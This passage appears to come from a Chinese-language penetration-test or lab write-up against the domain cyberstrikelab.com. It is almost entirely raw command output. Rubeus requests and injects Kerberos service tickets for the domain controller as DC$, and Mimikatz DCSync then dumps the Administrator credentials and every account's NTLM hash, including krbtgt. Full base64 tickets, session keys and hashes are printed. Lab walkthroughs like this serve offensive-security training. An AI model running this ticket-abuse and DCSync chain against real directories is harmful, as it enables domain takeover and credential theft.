      sr051W/ef9tZ3thINfpXsNPka1/LNcjyesylbVKYObdaUZYjdamHFnbt/ATy48l5ncef7UjWjFwhnflE
      ZKbsg4XPm3T/pd1Z7R93j9QYOjmhnw/KpttbmpehfMcjHaCZcK37Uw6tn7XYs6jMR/IBgMaGjdsueNS3
      Q0OfttzaYx4Cbem07f5d7JnElopyVosYBRmfhFdndIcCr8h2BHI8Qx0LYrF+j2VmL7yWHNHtdtLBX9ry
      AZ3z3tSP5V4hUQGQldCAZuezO7JzDIOLRez7EZKKPjwy4gwDpYgpJeW4w9McE/bxWSPMn7nXvK8rYISf
      Mb+KQ/rnxhlsyvosXjoxL8oA7owwh0bWA854/DwjT1UQNM3SkSIeC1+uWV5AOTcR3aR/eMhHWkkrh9aU
      TnyIRFuv4oJx/0w6mHsQuEBhs6qXkv0SZs3lKWFWAt2eOZuGQ/EakoM1bHO5G3mUG5zI+lTOu+sEgUYT
      CoXfQ4MFm34xoFcty4AqIUo4iJaGGcnvv9OG6hzDb8GIOsZGYaa1+MHE8ZTa1VwBuix4XqoNrgaO8Y7x
      26KKKiT6KsWOZmUq/AmZy/wmxv1Wyr1YsZT7FYgxErAICaX8tfByolI0Ky/bForBb3xsLckzpcIQeBCH
      wSriJWa7JNvbeFdudVZpyO05EGl4GIzGn8vG/rqGYw7AoY6UGyUSmAbfmyIvistDS8NleBOcMUe5rEjK
      /fRKSeiIeNs9/uA9s+KY1MJeSm6aotP3OajsbxeBK7Yi7AS4FgsW4OI4d61XmIwU2S1vuXA56ppoy/Tb
      HbCoMr009Xidmvct5zwPOOCgxgx0mcoleuQRVX1VE/gSeo7W1retkWUpekR4ryZkGRVH1xrJBAm5oVjN
      t3e/EI6q2O/jy6ka6MW8UW6v/raG9C2bWYYiEpqrSW320p1pPoGzOYdtB4S7GVV1U86HJP48uyN0c9Gk
      UZnk+eA4NTwXnlfaAJk3chFts5wIjjlJrSVWqIkk8OCy4rJAnxwtghJ//ws2UsnfrE0f85tW9SeGMy2n
      lcVqgbhyUoPzl1r/tZZPrn23Ay/YTAP6Yno5uhjgtRYS0pipr2RL31QDAx3FV+W2o4HhMIHeoAMCAQCi
      gdYEgdN9gdAwgc2ggcowgccwgcSgKzApoAMCARKhIgQg+c3oUjO8xelqtBZrSi02fiOFVdL5YP+fQe5v
      T+OPu1uhFBsSQ1lCRVJTVFJJS0VMQUIuQ09NohAwDqADAgEBoQcwBRsDREMkowcDBQBgpQAApREYDzIw
      MjUwNTI4MDQxMTEwWqYRGA8yMDI1MDUyODA0NDIzN1qnERgPMjAyNTA2MDMxODQyMzdaqBQbEkNZQkVS
      U1RSSUtFTEFCLkNPTakVMBOgAwIBAqEMMAobBGhvc3QbAmRj

  ServiceName              :  host/dc
  ServiceRealm             :  CYBERSTRIKELAB.COM
  UserName                 :  DC$ (NT_PRINCIPAL)
  UserRealm                :  CYBERSTRIKELAB.COM
  StartTime                :  2025/5/28 12:11:10
  EndTime                  :  2025/5/28 12:42:37
  RenewTill                :  2025/6/4 2:42:37
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  +c3oUjO8xelqtBZrSi02fiOFVdL5YP+fQe5vT+OPu1s=

C:\Users\Administrator\Desktop>.\Rubeus.exe asktgs  /ticket:doIFRDCCBUCgAwIBBaEDAgEWooIEPDCCBDhhggQ0MIIEMKADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4ID6DCCA+SgAwIBEqEDAgECooID1gSCA9KTvSs605rgfSgF+4+LnHLbAFkCtxWF0T2bd3toFD54T/3FD0Yaqe5aV+YE6RCYhdtjtau0b1WvoPUx2m/L9P9wcs5veWB48cuDS16igG87EcrZvKQvGJu/mnTZU3kPQv3SlMZNDZtE0LNxfNk9GyVyDC1XCP+iry5HW20tQZOBlClavwskDl+NjuUmaP2gMdDdwSAbB/4G0f8JPH12UHDaDG/IucWPiVk10HqGD2LVJD8u3LkOeHlyg87OmOXgdxyblcgsG74IiKqsfdM6G/9cKjnQ1tjEPLhQCU71H3O1DstizxkXU62rNIMHhuHwxHH1/lChHkXp6H8xSwnMreo1kzmO0nuvcCbWzhip3jocgGTPoDmP077uC93czWIFMU5AHtTwMRNS8uFK5QPxO9DBCP1k3eqaSs2rOxBMQTSi/5FiiUwwCJm8RnY8M4iD7m16EFgy9hXBxCXsNWk0BHXkZ8DB3JxaJ9vBgXf7aQm4JQTvANVrCnjK+mJLC20qpGX17UxPBsL4xKp86PLd0PCLHvhiYVQjlmOciv+j6I2q80PHzVVVfiSzHp2DGofVd3M4gZdVvu6GVKXn2EHwYmy9fZ5tyv7+wE8KI6KE86gVNKfignVeNXi6tTF9EXYX2zRqiD6tZJTzqmOYC6ja6XpGdQosB50thGzJvC2opxlANOzlY9UQdGTGcwzTBNwcan10zWrGyanmSbT4Au3cbsfytaS05ehZyjiol8cRTj20AUbBoEjznsqBvVe7cnV4w9scAowQCxunX4p4nCwrl1+dIHlM/N/+NbvLLdnsKGBtL68wgfvTZ/qegLchbwCJ3tC4rQslSaiBYm6vs0RTqs++Ud1xAa05MQSlfqK4VjRujNO4AE9+DdLrJFpAJAhFuVheedIfsryK8YU43sr+hK2P5NDwmArBHeUdJDTsCnkDvP0rE0B6uVYP7rFCfUFOd+V5q/aFclk3cueWz3dBpmXyu3B+aLdGEhqytVE7j0dBQAlGCLz8TPOh3eltN2Tl8fszCYqefxOShqgMYffx/eHDkhBqxn7lEmDA1NSgRotMGJaGqMbqdV6q/mO/LcYJwbi2Ahlkxhhn/3Eo9Ho/L2fDgYq1+deaTKkaoc70d7zerwXHf11e5rwnfW8hOAQP86a4Mb4T32lIn1qvDeH6M5J3Ov9r4izKfNINZGW/xHwsrzm6WqRo1BNfw8sdSPEt2vEji2DG4tUORGShvRPkengOEs/xRbUUPHb/sF7lfvPrL/K0jTxglBRB2cc/TPyCJXTwZm9biS1yTHVSpY65gieY8UyjgfMwgfCgAwIBAKKB6ASB5X2B4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCBXygTZvMaqz6OscNKlBZnX1O8V8H5+IcAKU1pIUdwV6KEUGxJDWUJFUlNUUklLRUxBQi5DT02iEDAOoAMCAQGhBzAFGwNEQySjBwMFAGChAAClERgPMjAyNTA1MjcxODQyNDRaphEYDzIwMjUwNTI4MDQ0MjM3WqcRGA8yMDI1MDYwMzE4NDIzN1qoFBsSQ1lCRVJTVFJJS0VMQUIuQ09NqScwJaADAgECoR4wHBsGa3JidGd0GxJDWUJFUlNUUklLRUxBQi5DT00= /service:ldap/dc /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'ldap/dc'
[*] Using domain controller: DC.cyberstrikelab.com (10.0.0.60)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFSDCCBUSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNP
      TaIVMBOgAwIBAqEMMAobBGxkYXAbAmRjo4IEEDCCBAygAwIBEqEDAgEFooID/gSCA/rsd+rG4TrAyU7+
      SvIbI8tshU27ufw8cGH8E5LA2nx3y/4TPXCLwGvPBYMf7AN8F0XZgGI0is0BBRYWbdoPsN8bVg+fSsx/
      GeMR9mX+WTT2+5xza/2Mqe0OfkKMCgLOYbSJIPcJgvtWZxkkEnb9riP8/jHm3gUUzg/tEKadZPEo5Ebj
      PdG4SKrMA035u/NpbdndFl/khXFJ4DQwxmwOR+JATz2qUZ5JlNgd2gq24m0tSJ20TdgHIst+F3HByXdk
      OrcC/8ohM8qb/8o6Ve3NSOJQ5qQDuPZbPOJ38sEaeWLqXR7o1ka8CYzejnyK/YF0k2g6u2N1B8fvsQZX
      kZNqjU9SgZsPdRsfv75zYCg+P7UPv5FF7UXlTRFRDIZ5mmU1PjwSzCcehmrgM4fXnxyiAVu6GvBcajro
      cydtejB68/iEIDEP/CLYry+eZJMvmUv5IvLj5sqATlfsmBhbtT5COFi2Fppzrrm0VyIfjKCSabaZ2VVE
      0VegvZDcdvFSqG9XKQZZwmkrmCkNAq4RcIERTCoJZDkOE4lunTEQZTzrKEbWyMVYOYfueCM1ccHMyxw3
      NC+YsrU/aJmNSp7jHDEimADClrDsyCFMbUH9ds7u5XPAdF9ZfSldWUBL76qoUfn6ookt492EhfcpsYyQ
      RcHtYTEpBe2atKUA+/U4X3hzyIZMiJFCuAtHPUM0X+7PAPZsmYAujUBhjo62XcppLF9b39DZS4uTBk56
      nVOz//MjDJW5j5oDU7MJ+VghnC/xqvNdGyZAhkRjeuP6FOZTM2mnvtHKD8BBVXUGsjB8D5uyLr0iapvN
      wjMvEjtFjKbkgcr/+KKaZGriLaOsMZNKSeMDIN1nQT3keJVZMpFA+j0ynLjdkfueVG8JJE5eFq021/h+
      AbaiYyS0HVoO45t8E0Qfq40R0BCc9TsbTf/LMWjUCbXRqgxB4Yt/KF0otBy0WP++CkOYvYtHOnenstX1
      Zjtx10voNFCw7pqUkVZuOPzV5c+Gil/xvF9mB0cGPFBvvf3RI+FwXOstLdnSATLu3qvcbd/Zw1fAl6wn
      vy/PQkJjevoHFjoNyl8kXCQoTKEbwxXpEbFSCV8EVWbdDrmPTA2yTQPflckfevGG9zeFfIeNABgAPTib
      KWmSD+mD7RzPwBrBivXC2uypt0feih16xbfKnhnEjci3KN1C9GiQe2H0ktWFSFFi92ZdaVzcJbBivvCk
      jP1BAqckt+dVRbAfk9DQobBVo8EkvBEpxN54gt8lZ/Sy+fM6Wm/JNV50vO2cq96IC7Xh1a0ng7YrAa5r
      WFzQ+8w62CFZOVOoekbF1YDbWLEa5tFY103R2On1HclMIm23mHeoVk0WBAYjI2FSo4HhMIHeoAMCAQCi
      gdYEgdN9gdAwgc2ggcowgccwgcSgKzApoAMCARKhIgQgqzaOzwBNE+RRl+pnUpCPB7Z0LR/EPGZ7ubFp
      ry57RcWhFBsSQ1lCRVJTVFJJS0VMQUIuQ09NohAwDqADAgEBoQcwBRsDREMkowcDBQBgpQAApREYDzIw
      MjUwNTI4MDQxMTE2WqYRGA8yMDI1MDUyODA0NDIzN1qnERgPMjAyNTA2MDMxODQyMzdaqBQbEkNZQkVS
      U1RSSUtFTEFCLkNPTakVMBOgAwIBAqEMMAobBGxkYXAbAmRj

  ServiceName              :  ldap/dc
  ServiceRealm             :  CYBERSTRIKELAB.COM
  UserName                 :  DC$ (NT_PRINCIPAL)
  UserRealm                :  CYBERSTRIKELAB.COM
  StartTime                :  2025/5/28 12:11:16
  EndTime                  :  2025/5/28 12:42:37
  RenewTill                :  2025/6/4 2:42:37
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  qzaOzwBNE+RRl+pnUpCPB7Z0LR/EPGZ7ubFpry57RcU=

```

请求cifs 、ldap、host票据

```
:\Users\Administrator\Desktop>.\Rubeus.exe triage

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x225f1

 -----------------------------------------------------------------------------------------------------------------
 | LUID    | UserName                       | Service                                       | EndTime            |
 -----------------------------------------------------------------------------------------------------------------
 | 0x3e4   | cyberweb$ @ CYBERSTRIKELAB.COM | krbtgt/CYBERSTRIKELAB.COM                     | 2025/5/28 12:43:45 |
 | 0x3e4   | cyberweb$ @ CYBERSTRIKELAB.COM | cifs/DC.cyberstrikelab.com                    | 2025/5/28 12:43:45 |
 | 0x225f1 | DC$ @ CYBERSTRIKELAB.COM       | ldap/dc                                       | 2025/5/28 12:42:37 |
 | 0x225f1 | DC$ @ CYBERSTRIKELAB.COM       | host/dc                                       | 2025/5/28 12:42:37 |
 | 0x225f1 | DC$ @ CYBERSTRIKELAB.COM       | cifs/dc                                       | 2025/5/28 12:42:37 |
 | 0x3e7   | cyberweb$ @ CYBERSTRIKELAB.COM | krbtgt/CYBERSTRIKELAB.COM                     | 2025/5/28 20:44:57 |
 | 0x3e7   | cyberweb$ @ CYBERSTRIKELAB.COM | LDAP/DC.cyberstrikelab.com                    | 2025/5/28 20:44:57 |
 | 0x3e7   | cyberweb$ @ CYBERSTRIKELAB.COM | ldap/DC.cyberstrikelab.com/cyberstrikelab.com | 2025/5/28 20:44:57 |
 | 0x3e7   | cyberweb$ @ CYBERSTRIKELAB.COM | cifs/DC                                       | 2025/5/28 20:44:57 |
 -----------------------------------------------------------------------------------------------------------------

C:\Users\Administrator\Desktop>
```

```
mimikatz # lsadump::dcsync /dc:dc /domain:cyberstrikelab.com /user:administrator
[DC] 'cyberstrikelab.com' will be the domain
[DC] 'dc' will be the DC server
[DC] 'administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 1601/1/1 8:00:00
Password last change : 2025/2/15 22:36:48
Object Security ID   : S-1-5-21-4203157702-3713413619-1189596195-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 7b50525da0ea9349b4c698bbe4868544
    ntlm- 0: 7b50525da0ea9349b4c698bbe4868544
    ntlm- 1: a167976f7bd8d93ee232fa7a87a4079e
    lm  - 0: c4f438a2a99350e683836454898f9149

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 366924dcfe6f957ec806f12804505331

* Primary:Kerberos-Newer-Keys *
    Default Salt : CYBERSTRIKELAB.COMAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 588ecc247a7ebbdb039016bc6ceda2bc81fc9d91ace90b31534220109b8095d6
      aes128_hmac       (4096) : 38d0f6f353cc92ea228d995071888094
      des_cbc_md5       (4096) : 987f62c27cc49225

* Primary:Kerberos *
    Default Salt : CYBERSTRIKELAB.COMAdministrator
    Credentials
      des_cbc_md5       : 987f62c27cc49225

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  bde94714987869fd98131de82b153bd2
    02  c1a4bfbd7ef646cbb262db825e9404b6
    03  bd2038eda9366a51d26e0b626cb32e0f
    04  bde94714987869fd98131de82b153bd2
    05  52d4a2e98c7e3f868351ab323db2e205
    06  86da190b5e8f8b25d10405c2e93ae011
    07  ca1aa6537a08ea9c406c58e7bbad3187
    08  db4443a2c851ef6c70641cf532e93efb
    09  480f55fbd709e45e3d9609a7fb22927d
    10  3ae13751710b621b4fda6a0bd8ee7baf
    11  db05faf7d23d0be0fee736b31198ce0b
    12  db4443a2c851ef6c70641cf532e93efb
    13  94f598e35d6f1c00830d26a17aa25403
    14  642d092a0f8cc0bf7f414c1612a14583
    15  5f0dd10145889104164de3722d0f497e
    16  428f874d9e314e0be760d46cac4d0fd5
    17  1e818c8f132a456f4791e2f180f1cad4
    18  e80dd809cde59e9ea453acf4bd894d5f
    19  ba93e34e09a79218067e7ee9bff49edd
    20  7a83cb97d746c635e4500eceaaae25fa
    21  464ea202ad53c1313e30904a34457ec8
    22  8ad448e9a1fe3cdce4cd8e48b5a38e1c
    23  26ca75f173bf2cc3b5d1bb591716e311
    24  7090bfdcdd7075885413ee346a9dabeb
    25  c0ce374bd8dbf4a4edb9c4687db75bd0
    26  11a785b0a20624777217f4f65b084c96
    27  8d2ea847c63fdbab239937270fabdef8
    28  77037aa53dd9380b33fc45ef91028c50
    29  b64cc4446d9d01022486e90a261b99af

```

```
mimikatz # lsadump::dcsync /dc:dc /domain:cyberstrikelab.com /csv /all
[DC] 'cyberstrikelab.com' will be the domain
[DC] 'dc' will be the DC server
[DC] Exporting domain 'cyberstrikelab.com'
502     krbtgt  914015901d379ce39700dfe66fb6b35d
1106    cslab   dac667db974d83b8892e44056066590e
1000    DC$     ff64fd8c411bcd95ca1ad85cc02d70a7
500     Administrator   7b50525da0ea9349b4c698bbe4868544
1103    CYBERWEB$       6d1ad68cae119f25682ba8b02e801817
1108    Tom     2de5cd0f15d1c070851d1044e1d95c90
```
